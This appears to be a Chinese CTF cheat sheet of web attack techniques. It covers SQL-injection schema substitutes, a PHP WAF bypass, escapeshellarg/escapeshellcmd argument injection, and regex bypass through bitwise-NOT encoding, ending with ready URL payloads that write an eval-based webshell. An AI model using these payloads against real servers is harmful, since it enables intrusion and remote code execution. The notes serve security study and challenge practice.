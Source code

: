 ##### 默认库/表

```sql
information_schema.tables => mysql.innodb_table_stats
table_schema => database_name
```

## RCE

利用PHP的字符串解析特性就能够进行绕过waf 构造参数? num=phpinfo()（注意num前面有个空格）就能够绕过

### Linux env

```sh
# Linux命令的位置：
/bin,/usr/bin # 默认都是全体用户使用，
/sbin,/usr/sbin # 默认root用户使用
```

### **escapeshellcmd()** 和 **escapeshellarg()** 

1. 传入的参数是

   ```php
   127.0.0.1' -v -d a=1
   ```

2. 由于`escapeshellarg`先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。所以处理之后的效果如下：

   ```php
   '127.0.0.1'\'' -v -d a=1'
   ```

3. 经过`escapeshellcmd`针对第二步处理之后的参数中的`\`以及`a=1'`中的单引号进行处理转义之后的效果如下所示：

   ```php
   '127.0.0.1'\\'' -v -d a=1\'
   ```

4. 由于第三步处理之后的payload中的`\\`被解释成了`\`而不再是转义字符，所以单引号配对连接之后将payload分割为三个部分，

所以这个payload可以简化为`curl 127.0.0.1\ -v -d a=1'`，即向`127.0.0.1\`发起请求，POST 数据为`a=1'`。

但是如果是先用 **escapeshellcmd** 函数过滤,再用的 **escapeshellarg** 函数过滤,则没有这个问题。

### 正则绕过

#### [A-Za-z0-9]

```php
preg_match("/[A-Za-z0-9]+/",$code)
//不能包含a到z的大小写字符和1到10的数字, 可用取反绕过
  
// phpinfo
echo urlencode(~'phpinfo');
// %8F%97%8F%96%91%99%90 => /?code=(~%8F%97%8F%96%91%99%90)();

// 写马, 蚁剑连接
echo urlencode(~'assert');
// %9E%8C%8C%9A%8D%8B
echo urlencode(~'(eval($_POST[cmd]))');
// %D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6
// /?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%9C%92%9B%A2%D6%D6)
```
